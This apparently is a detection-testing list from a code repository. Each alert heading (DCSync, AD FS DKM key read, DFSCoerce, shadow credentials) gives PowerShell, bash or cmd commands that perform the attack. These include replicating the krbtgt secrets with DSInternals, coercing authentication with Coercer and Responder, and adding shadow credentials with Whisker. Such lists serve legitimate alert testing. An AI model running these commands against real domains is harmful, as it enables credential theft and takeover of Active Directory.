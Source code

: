 ### Honeytoken authentication activity

### Suspected DCSync attack (replication of directory services)

```powershell
Install-Module -Name DSInternals -Force
Get-ADReplAccount -SamAccountName krbtgt -Server $env:USERDNSDOMAIN
```

### Suspected AD FS DKM key read

#### LDAP

```powershell
 [adsisearcher]::new('LDAP://CN=ADFS,CN=Microsoft,CN=Program Data,DC=contoso,DC=com','(thumbnailPhoto=*)', 'thumbnailPhoto').FindAll() |
    ForEach-Object { [System.BitConverter]::ToString($PSItem.Properties['thumbnailPhoto'][0]) }
```

#### ADWS

```powershell
Get-ADObject -SearchBase 'CN=ADFS,CN=Microsoft,CN=Program Data,DC=contoso,DC=com' `
             -LDAPFilter '(thumbnailPhoto=*)' `
             -Properties thumbnailPhoto |
    ForEach-Object { [System.BitConverter]::ToString($PSItem.thumbnailPhoto) }
```

### Suspected DFSCoerce attack using Distributed File System Protocol

```bash
~/env-pytools/bin/coercer coerce --username john --password 'Pa$$w0rd' --domain 'contoso.com' --target-ip contoso-dc.contoso.com --listener-ip 10.213.0.100 --always-continue
```

```bash
responder -I eth0
```

### Suspicious Kerberos delegation attempt using BronzeBit method (CVE-2020-17049 exploitation)

### Abnormal Active Directory Federation Services (AD FS) authentication using a suspicious certificate

### Suspected account takeover using shadow credentials

```cmd
whisker.exe add /target:Admin
```

### Suspected suspicious Kerberos ticket request

